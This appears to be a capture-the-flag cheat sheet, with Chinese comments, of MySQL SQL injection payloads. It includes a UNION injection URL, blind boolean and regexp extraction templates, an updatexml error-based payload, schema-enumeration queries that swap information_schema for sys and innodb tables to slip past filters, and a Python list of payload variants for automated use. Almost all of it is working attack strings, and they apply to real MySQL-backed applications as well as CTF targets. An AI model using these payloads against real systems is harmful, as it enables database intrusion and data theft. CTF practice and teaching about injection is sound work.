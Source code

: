 - ```sql
  http://172.27.16.101:20123/sqlInject.php?id=2 union select (select group_concat(table_name) from information_schema.tables where table_schema=database())
  xxx'||(mid((select(group_concat(table_name))from(sys.schema_auto_increment_columns)where((table_schema)like(0x6d656469756d))),1,1)like('c'))||'
  xxx'||(mid((select(group_concat(table_name))from(sys.schema_auto_increment_columns)where((table_schema)like(0x6d656469756d))),%d,1)regexp'%s$')||'
  "||updatexml(1,concat(0x7e,(select(flag)from(flag)),0x7e),1)#
  ```
-
- ```sql
  # 数据库名
  select database()
  # 数据库版本名
  select version()
  # 当前正在执行的语句，可以看到表的结构
  select Info from information_schema.processlist limit 0,1
  # 表名
  select group_concat(table_name) from information_schema.tables where table_schema=database()
  select(group_concat(table_name)from(mysql.innodb_table_stats)where((database_name)regexp(database())
  select(group_concat(table_name))from(information_schema.tables)where(table_schema)regexp(database())
  (select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer))
  # 列名
  select group_concat(column_name) from information_schema.columns where table_name="table_name2333"
  select(group_concat(column_name))from(information_schema.columns)where(table_name='table_name2333')
  # 从表中选择
  select * from flag
  select(group_concat(password))from(F1naI1y)
  ```
- ```python
  sql_targets = Targets(
      database=["database()"],
      all_databases=["(select group_concat(schema_name) from information_schema.schemata)"],
      version=["version()"],
      table_name=[
          "(select group_concat(table_name) from information_schema.tables where table_schema=database())",
          "(select(group_concat(table_name))from(information_schema.tables)where(table_schema)regexp(database()))",
          "(Select(Group_Concat(Table_name))From(InfOrmation_Schema.Tables)Where(Table_Schema)Regexp(Database()))",
          "(select(group_concat(table_name)from(mysql.innodb_table_stats)where((database_name)regexp(database())))",
          "(select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer))"
      ],
      column_name=[
          "(select(group_concat(column_name))from(information_schema.columns)where(table_name='TABLE_NAME'))",
          "(Select(Group_Concat(Column_Name))From(InfOrmation_Schema.Columns)Where((Table_Name)regexp'TABLE_NAME'))",
          "(select group_concat(column_name) from information_schema.columns where table_name='TABLE_NAME')",
      ]
  )
  ```
-